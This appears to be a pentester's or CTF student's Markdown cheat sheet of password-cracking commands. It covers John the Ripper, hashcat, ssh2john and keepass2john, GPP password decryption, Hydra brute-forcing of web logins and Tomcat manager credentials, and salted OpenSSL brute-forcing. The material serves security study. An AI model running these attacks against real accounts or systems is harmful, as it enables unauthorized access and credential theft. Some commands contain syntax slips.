 #Possible Hash - in Kali
```
hash-identifier

> <hash>
```
#with John
```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
  
  
  

we have to crack the idrsa

  
```
1. ./ssh2john.py id_rsa > id_rsa.crack

2. john id_rsa.crack --wordlist=/usr/share/wordlists/rockyou.txt
```
   

#with Hashcat
```
hashcat -m <mode-a 0 hash.txt /usr/share/wordlists/rockyou.txt --force

hashcat64.exe -m <mode> file.hash rockyou.txt`
```
  
  

# KDBX

```
1. keepass2john CEH.kdbx

2. hashcat -m 13400 file.keepass rockyou.txt
```
  
  

#with Online
```
https://crackstation.net/

```  
  

# password crack with GPP

  

```
python3 gpp-decrypt.py -f Groups.xml
```

  
  

# Haydra

  

1. On HTTP

  
```
hydra -l <user> -P /usr/share/wordlists/metasploit/common_roots.txt 127.0.0.1 http-form-post "/simple_chat/login_form.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```
  

2. will use Hydra to find apache manager cred

  
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 <ip> http-get /manager/html

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt <ip> http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt <ip> http-post-form "/db/index.phppassword=^PASS^&login=Log+In&proc_login=true:Incorrect" -t 64
```

##  "bruteforce -salted ssl" , with default digest as sha256 (openssl defalt digest is sha256)

  
  

```bash
bruteforce-salted-openssl -t 10 -d sha256 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc drupal.enc.decoded
```
```
openssl aes-256-cbc -d -in drupal.enc.decoded -out drupal.txt -k friends
```

  
  



